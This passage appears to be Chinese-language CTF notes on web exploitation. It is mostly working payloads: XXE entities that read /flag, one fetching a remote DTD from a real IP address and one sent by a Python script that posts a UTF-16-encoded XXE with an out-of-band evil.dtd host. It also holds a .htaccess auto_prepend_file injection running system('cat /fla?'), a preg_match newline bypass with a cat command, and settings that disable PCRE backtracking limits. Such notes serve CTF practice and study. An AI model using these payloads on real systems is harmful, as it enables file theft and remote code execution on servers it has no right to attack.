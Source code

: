 ```xml

<!DOCTYPE creds [
<!ELEMENT creds ANY>
<!ENTITY a SYSTEM "file:///flag">
]>
<user><username>&a;</username><password>1</password></user>
```

如果没有`echo`,那应该怎么办呢

答案是远程服务器
远程服务器配置好了,payload如下

```xml
<?xml version="1.1"?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM "http://43.143.239.235/xxe.dtd">
%remote;
]>
```

如果过滤了`http`就用`ftp` 或者`utf-16`绕过

```py
import requests

url = "http://bc5a33d7-d201-47cb-9ca8-65de9691bd9f.challenge.ctf.show/"
data = """<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://ip:port/evil.dtd">
%aaa;
]>
<xxe>1</xxe>
"""
requests.post(url ,data=data.encode('utf-16'))
```

一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。

`iconv -f UTF-8 -t UTF-16BE xxe.xml > xxe16be.xml`

## php_value auto_prepend_file

2020羊城杯easyphp

`.htaccess`也可以和`.user.ini`一样

```php
php_value auto_prepend_fil\
e .htaccess
#<?php system('cat /fla?');?>\
```

`\`连接上下文 #是注释

要url编码`?filename=.htaccess&content=php_value%20auto_prepend_fil%5C%0Ae%20.htaccess%0A%23%3C%3Fphp%20system('cat%20/fla?')%3B%3F%3E%5C`

## pcre

preg_match只匹配第一行。当有换行符的时候就不会匹配
`{%0a"cmd":"/bin/cat%20/home/r*/f*"%0a}`

回溯限制

默认是100万
可以在`.htaccess`中设置
`php_value pcre.backtrack_limit 0`
`php_value pcre.jit 0`
